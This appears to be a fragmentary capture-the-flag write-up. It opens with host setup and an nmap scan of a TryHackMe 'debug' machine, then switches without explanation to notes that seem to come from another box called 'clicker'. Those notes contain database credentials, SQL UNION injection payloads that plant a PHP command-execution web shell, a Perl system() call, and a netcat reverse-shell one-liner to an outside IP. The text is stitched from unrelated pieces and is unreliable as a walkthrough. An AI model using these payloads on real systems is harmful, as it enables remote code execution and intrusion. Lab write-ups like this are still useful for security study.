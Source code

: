 # #1 Introduction
<img width="650" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/01ce8d44-bffa-4cc1-8286-d1565202ffaa">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx debug.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- debug.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

$db_server="localhost";
$db_username="clicker_db_user";
$db_password="clicker_db_password";
$db_name="clicker";


1 UNION SELECT REPLACE(nickname, 'mateor', '<?php echo system($_GET[0]); ?>'), clicks, level FROM players

9999999999999999999 UNION SELECT '<?php phpinfo(); ?>', 2, 3 from players
999999999999999999
extension: php



sub new {
    system("sh script.sh --help");
}


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.186 6667 >/tmp/f
<img width="746" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/605b42fd-af46-492f-a817-365110c0ad75">

